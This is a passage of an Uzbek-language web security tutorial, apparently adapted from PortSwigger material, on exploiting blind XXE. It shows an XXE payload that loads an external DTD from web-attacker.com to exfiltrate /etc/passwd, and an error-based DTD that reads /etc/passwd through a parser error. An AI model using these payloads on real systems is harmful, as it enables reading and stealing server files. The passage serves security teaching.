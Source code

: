 ```uri
http://web-attacker.com/malicious.dtd
```

Nihoyat endi haker ushbu zararli DTD ni himoyasiz saytga yuklashi mumkin:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```

Ushbu XXE payload `xxe` deb nomlangan XML parametrdan entitydan foydalanadi va uni DTD ichida ishlatadi. Bu XML parseriga haker serveridan tashqi DTD ni olishiga va uni inline talqinida olib kelishga majburlaydi. Bu ishlar tugagandan so'ng hakerni serveriga /etc/passwd fayli yuklanadi.

:::info **Eslatma:**

Bu usul, tarkibida yangi qator belgilarni o'z ichiga olgan `/etc/passwd` fayl kabi ba'zi fayl tarkiblari bilan ishlamasligi mumkin. Buning sababi shundaki, ba'zi XML parserlar URL ichida ruxsat berilgan belgilarni tasdiqlovchi API yordamida e'lon qilingan tashqi entityda URLni olib keladi. Bunday holda, HTTP o'rniga FTP protokolidan foydalanish mumkin. Ba'zida yangi qator belgilarini o'z ichiga olgan ma'lumotlarni o'chirib tashlab bo'lmaydi, shuning uchun uning o'rniga `/etc/hostname` kabi faylni yo'naltirish mumkin.
:::

:::caution **Lab**
 [Ma'lumotlarni zararli tashqi DTD yordamida exfiltatsiya qilish uchun XXEdan foydalanish ≫](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)
:::

## Xatolik habarlari orqali malumotlarni olish uchun Blind XXEdan foydalanish. <a href="#blind-xxe-error-lar-orqali-exploit-qilish" id="blind-xxe-error-lar-orqali-exploit-qilish"></a>

Blind XXE dan foydalanishning yana bir usuli bu siz olishni hohlagan mahfiy ma'lumotlarni o'z ichiga olgan xatolik habarlarini keltirib chiqarish uchun XML parsing hatoliklarini yuzaga keltirish. Agar sayt responseda xato xabarini qaytarsa, bu samara beradi.

Siz quyuidagi kabi zararli tashqi DTD dan foydalanib, etc/passwd fayl takibini o'z ichiga olgan XML parsing error habarini yuzaga keltira olasiz&#x20;

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Ushbu DTD quyidagilarni bajaradi:

* `file` deb nomlangan XML parametr entitysini e'lon qilyapti va unining qiymati sifatida  `/etc/passwd` faylini belgilayapti
* `eval`deb nomlangan XML parametr entitysi,  `error` deb nomlangan boshqa XML parametr entity deklaratsiyasini o'z ichiga olgan. `Error` entity, `file` nomli entity qiymatini o'z ichiga olgan mavjud bo'lmagan faylni yuklash orqali baholanadi.
* &#x20;`eval` entitysidan foydalanmoqda, bu esa dinamik deklaratsiyani amalga oshirishga sabab bo'ladigan `error`entitydan foydalanadi.
* `error` entitydan foydalanmoqda,  shuning uchun uning qiymati mavjud bo'lmagan faylni yuklashga uringanida aniqlanadi, natijada mavjud bo'lmagan fayl nomini o'z ichiga olgan xato xabarda `/etc/passwd` fayl tarkibi paydo bo'ladi.
